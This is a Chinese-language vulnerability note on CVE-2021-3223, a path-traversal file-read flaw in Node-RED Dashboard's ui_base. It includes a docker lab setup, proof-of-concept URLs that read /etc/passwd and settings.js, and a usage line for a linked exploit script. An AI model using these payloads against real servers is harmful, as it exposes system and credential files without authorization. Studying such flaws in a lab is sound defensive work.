


# CVE-2021-3223 Node-RED ui_base 任意文件读取漏洞

## 漏洞概述
Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

由于缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响
Node-RED-Dashboard < 2.26.2

## 环境搭建

漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-3223/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:1880/`，环境运行成功





## 漏洞利用

### POC
```
http://your-ip:1880/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
http://your-ip:1880/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

### EXP
exp脚本
> https://github.com/errorecho/CVEs-Collection/blob/main/CVE-2021-3223/Exp/CVE-2021-3223.py

使用方法
```
python CVE-2021-3223.py http://your-ip:1880 /etc/passwd outputfile
```



